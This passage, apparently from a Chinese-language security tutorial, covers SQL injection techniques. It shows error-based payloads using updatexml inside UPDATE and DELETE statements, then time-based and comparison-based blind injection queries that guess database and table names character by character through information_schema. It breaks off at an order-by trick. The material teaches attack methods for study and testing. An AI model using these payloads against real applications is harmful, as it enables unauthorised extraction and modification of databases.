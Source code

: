 

```mysql
UPDATE users SET `password` '123' where id='1' and updatexml(1,concat(0x7e,database(),0x7e),1)
```



```mysql
DELETE from users where id='1' and updatexml(1,concat(0x7e,database(),0x7e),1)
```





## 5. SQL注入绕过技巧

### 5.1 字符串猜解总结

字符判断方式：`> < =`；`between and`；`like/rlike`；`strcmp`；`order by`；

字符截取方式：`substr/substring`、`mid`、`left/right`、

字符编码方式：`hex/unhex`、`ord`、`ascii`、

**（1）字符判断比较方式**

+ **通过比较符号判断**

​		直接通过=进行比较。

```mysql
select * from users where id='1' and if(substr(database(),1,1)='a',sleep(3),1)-- 
```

​		还可以通过`>=` 、`<=`符号判断字符范围，结合二分法快速确定字符的值。

```mysql
select * from users where id='1' and 
if(substr((select table_name from information_schema.tables where table_schema='数据库名' limit 1,1),1,1)>='k',SLEEP(3),1)-- 
```

```mysql
select * from users where id='1' and 
if(ASCII(substr((select table_name from information_schema.tables where table_schema='数据库名' limit 1,1),1,1))>112,SLEEP(3),1)-- 
```

+ **通过between and判断**

​		`BETWEEN 'a' and 'c'`判断字符是否在a到c之间。

```mysql
select * from users where id='1' and substr(database(),1,1) BETWEEN 'a' and 'c'
```

+ 通过like/rlike判断
+ 通过strcmp判断
+ **【技巧】order by大小比较盲注猜解字符**

条件：未过滤union select、未过滤order by
